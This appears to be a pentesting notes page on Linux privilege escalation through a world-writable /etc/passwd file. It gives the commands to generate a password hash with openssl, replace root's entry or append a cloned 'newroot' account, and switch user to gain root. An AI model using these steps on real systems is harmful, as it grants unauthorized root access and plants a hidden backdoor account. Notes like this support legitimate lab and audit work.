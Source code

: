 # Writeable /etc/passwd

The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

#### Investigation and password hash generation

{% code overflow="wrap" %}
```bash
ls -l /etc/passwd
openssl passwd newpasswordhere
nano /etc/passwd
```
{% endcode %}

<div align="left"><figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure></div>

#### Edit /etc/passwd and add a newly generated password hash

![](<../../.gitbook/assets/image (95).png>)



```bash
su root
```

![](<../../.gitbook/assets/image (96).png>)

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

<div align="left"><figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure></div>

Now switch to the newroot user, using the new password.&#x20;

```
su newroot
```
